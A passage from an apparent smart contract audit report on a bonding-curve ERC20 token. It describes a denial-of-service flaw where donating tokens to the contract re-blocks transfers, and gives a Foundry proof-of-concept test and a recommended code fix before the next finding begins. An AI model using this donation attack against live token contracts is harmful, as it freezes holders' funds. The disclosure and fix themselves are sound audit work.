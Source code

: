 Unfortunately, this protection can be exploited to perform DoS on token transfers after the pair with initial liquidity has been created. An attacker can donate `MAX_TOTAL_SUPPLY - availableTokenBalance + 1` tokens and reset the `liquidityGoalReached()`:

```solidity
    function liquidityGoalReached() public view returns (bool) {
        return getReserve() <= (MAX_TOTAL_SUPPLY - availableTokenBalance);
    }
```

Coded POC for the `ContinuosBondingERC20TokenTest.t.sol`:

```solidity
    function testTokenDown() public {
        vm.deal(user, 10_000 ether);
        vm.startPrank(user);

        bondingERC20Token.buyTokens{ value: 202.2 ether }(0);

        vm.expectRevert();
        bondingERC20Token.buyTokens{ value: 1 wei }(0);

        // pair is created
        assertEq(bondingERC20Token.isLpCreated(), true);
        assertEq(bondingERC20Token.getReserve(), 0);

        // donate tokens to the ERC20 contract
        bondingERC20Token.transfer(address(bondingERC20Token), 200_000_001 ether);

        // revert TransferNotAllowedUntilLiquidityGoalReached()
        vm.expectRevert();
        bondingERC20Token.transfer(address(this), 10 ether);
    }
```

## Recommendations

```diff
    function _update(address from, address to, uint256 value) internal virtual override {
        // will revert for normal transfer till goal not reached
       if (
            !liquidityGoalReached() && from != address(0) && to != address(0) && from != address(this)
+               && to != address(this) && !isPairCreated
        ) {
```

# [M-01] Lack of `isLpCreated` validation

## Severity

**Impact:** Medium
